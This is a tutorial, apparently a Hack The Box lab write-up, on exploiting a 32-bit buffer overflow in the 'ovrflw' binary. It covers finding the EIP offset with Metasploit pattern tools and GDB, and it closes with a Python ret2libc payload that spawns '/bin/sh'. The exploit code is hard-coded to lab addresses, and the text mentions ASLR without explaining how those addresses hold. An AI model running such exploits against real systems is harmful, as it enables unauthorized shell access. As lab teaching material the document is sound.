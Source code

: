 # Buffer Overflows

## Return Oriented Programming (ROP) Buffer Overflow
The following commands can be used in a Return Oriented Programming (ROP) buffer overflow attack to bypass NX/DEP protection.  The following example makes use of the `ovrflw` ELF binary found on the October Hack The Box machine.  All tools necessary are built into Kali Linux.

The ovrflw binary is 32 bit and has NX enabled and the system has Address Space Layout Randomisation enabled.


### Finding the point that overwrites EIP CPU Register

The following command can be used to generate a 500 character non repeating pattern to overlow the program:

```/usr/bin/msf-pattern_create -l 500```

The resulting output can be fed as an input to the binary:

```./ovrflw Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A...```

You can increase the length of the pattern generated by the `/usr/bin/msf-pattern_create` command and send it to the program, until the program generates a `segmentation fault` error.

Upon the generation of a `segmentation fault`being thrown by the overflw program, it can then be ran within the debugger GDB to find what section of the pattern overwrote the EIP CPU register:

```gdb ./ovrflw```

Now a break point for the `main()` function can be added, the the program will pause once run within GDB.  The following code will add the break point:

```(gdb) b main```

The program can now be run by pressing the "r" key followed by the none repeating string of characters (in this case 500):

```r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4A...```

To continue the exection of the program the "c" key can be pressed.  This will result in a "
Program received signal SIGSEGV, Segmentation fault." error.

To view the curent values of the registers within GDB use the command:
`info registers`

Take the value held in the EIP register.  In this case it is `0x64413764`.  This value can be passed into msf-pattern_offset to find out the offset necessary to crash the program:

```msf-pattern_offset -q 0x64413764```

This showed the offset necessary to overwrite EIP was 112.


### Python Exploit Code
```#!/usr/bin/python

import struct

system_mem = struct.pack("<I", 0xb7646310)
binsh_mem = struct.pack("<I", 0xb7768bac)
exit_mem = struct.pack("<I", 0xb7639260)

payload = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaab"
payload += system_mem
payload += exit_mem
payload += binsh_mem

print(payload)```

